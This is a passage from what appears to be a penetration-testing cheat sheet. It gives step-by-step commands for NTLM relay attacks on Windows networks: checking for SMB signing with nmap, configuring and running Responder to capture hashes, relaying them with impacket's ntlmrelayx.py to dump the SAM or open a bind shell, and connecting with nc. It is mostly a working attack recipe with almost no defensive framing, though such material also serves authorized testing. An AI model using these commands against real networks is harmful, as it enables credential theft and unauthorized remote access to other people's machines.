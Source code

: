     * $TARGETS_FILE: file of hostname or IP addresses to attempt to relay the captured hash(es) to

5. Let it run. If Responder catches a credential, ntlmrelayx.py will relay it to the target. If the relay succeeds, ntlmrelayx.py will dump the SAM of the target machine.

6. Don't forget to restore the Responder configuration when you're finished!

---

## Relay NetNTLMv2 Hashes for a Target Shell

* SMB signing must be disabled on the target
* Relayed user credentials must be administrator on the target

1. Ensure the target(s) have SMB signing disabled

    ```bash
    nmap -Pn --script=smb2-security-mode.nse -p445 $TARGETS
    ```

2. Turn off SMB and HTTP responding within Responder by editing the Responder configuration file

    ```conf
    # /usr/share/Responder/Responder.conf

    ; Servers to start
    ...
    SMB = Off
    ...
    HTTP = Off
    ...
    ```

3. Fire up Responder

    ```bash
    responder -I $INTERFACE_TO_LISTEN_AND_RESPOND_ON -rdwv
    ```

4. Fire up the relay

    ```bash
    cd /usr/share/impacket
    python3 examples/ntlmrelayx.py -tf $TARGETS_FILE -smb2support -i
    ```

    * $TARGETS_FILE: file of hostname or IP addresses to attempt to relay the captured hash(es) to

5. Let it run. If Responder catches a credential, ntlmrelayx.py will relay it to the target. If the relay succeeds, ntlmrelayx.py will create an interactive bind shell on the target a forward a local port to the bind shell. The ntlmrelayx.py output will inform you of which local port is forwarded.

6. Connect to the bind shell

    ```bash
    nc -nv 127.0.0.1 $FORWARDED_PORT_FROM_NTLMRELAYX_OUTPUT
    ```
